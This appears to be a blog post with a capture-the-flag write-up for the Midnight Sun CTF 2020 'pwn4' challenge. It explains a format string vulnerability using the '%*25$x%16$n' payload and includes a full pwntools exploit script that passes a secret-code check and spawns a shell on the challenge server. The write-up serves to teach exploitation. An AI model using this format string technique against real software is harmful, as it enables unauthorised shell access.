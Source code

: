 ```yaml
---
layout: post
title: Midnight Sun CTF 2020 Quals - pwn4
---
```


> An homage to pwny.racing, we present... speedrun pwn challenges. These bite-sized challenges should serve as a nice warm-up for your pwning skills.
>
> Files: [repo][repo]

## Analysis

Binary info:

{% highlight shell_session %}
pwn4: ELF 32-bit LSB executable, Intel 80386, version 1 (GNU/Linux), statically linked,
for GNU/Linux 3.2.0, BuildID[sha1]=38b1eb7827adf21dab4639d8eeb2ae6cdc49e1ea, not stripped

Canary                        : ✓
NX                            : ✓
PIE                           : ✘
Fortify                       : ✘
RelRO                         : Partial
{% endhighlight %}

Exploiting pwn4 required usage of not so well known format string syntax.

Decompiling main provided following output:

![code decompiled][decompiled_main]

Lets analyze what is happening here:
1. Secret code is read by using function get_secret that provides random 4 bytes from `/dev/urandom`.
2. Memory region with secred code is mprotected to make it read only.
3. User is required to provide parameters user and code.
4. Secret code is compared with code provided by the user and if they are equal `/bin/sh` is spawned.

It looks like we need to guess secret code generated by `/dev/urandom` or force comparison to be true by forcing one of the parameters to the known value. 

By analyzing `log_attempt` function we can discover format string vulnerability in the last line.
![vuln decompiled][decompiled_vuln]

It looks that we can abuse vulnerability and copy the secret (4 bytes) to our guess variable and pass the check. In order to do that we can use asterisk '*' that will allows us to choose the value from the stack that will be threated as a number for formatting the output.

{% highlight python %}
io.recvuntil("user: ")
io.sendline("%*25$x%16$n")
{% endhighlight %}

Syntax `*25$` means to take value "25th" from the stack and put it into the specified place. In this case 25th on the stack is secret value. That will print with `%*25$x` total number of bytes equal to secret value. Then we use this secret value to overwite our input code that is located on position 16th - `%16$n`.

There will be a lot of bytes that need to be read from the server so we wrap it into nice script

{% highlight python %}
p = log.progress("Receiving data")
while 1:
    try:
        data = io.recv(1024 * 1024)
        tot += len(data)
        p.status("%d MB", tot/1e6)
    except:
        break
{% endhighlight %}

## Full exploit 

{% highlight python %}
#!/usr/bin/env python3

from pwn import *

exe = context.binary = ELF('./pwn4')

host = args.HOST or 'pwn4-01.play.midnightsunctf.se'
port = int(args.PORT or 10004)

def local(argv=[], *a, **kw):
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def remote(argv=[], *a, **kw):
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    if args.LOCAL:
        return local(argv, *a, **kw)
    else:
        return remote(argv, *a, **kw)

gdbscript = '''
continue
'''.format(**locals())

io = start()

io.recvuntil("user: ")
io.sendline("%*25$x%16$n")

io.recvuntil("code: ")
io.sendline(str(10))

io.recvuntil("logged: ")

tot = 0

p = log.progress("Receiving data")
while 1:
    try:
        data = io.recv(1024 * 1024)
        tot += len(data)
        p.status("%d MB", tot/1e6)
    except:
        break

p.success("done (%d MB)", tot/1e6)
io.interactive()
{% endhighlight %}

[repo]: https://github.com/r0ck3tz/ctfs/tree/master/2020/midnightsun/pwn4
[decompiled_main]: {{site.baseurl}}/ctf/2020-04-13-midnightsunctf-pwn4/decompiled_main.png
[decompiled_vuln]: {{site.baseurl}}/ctf/2020-04-13-midnightsunctf-pwn4/decompiled_vuln.png
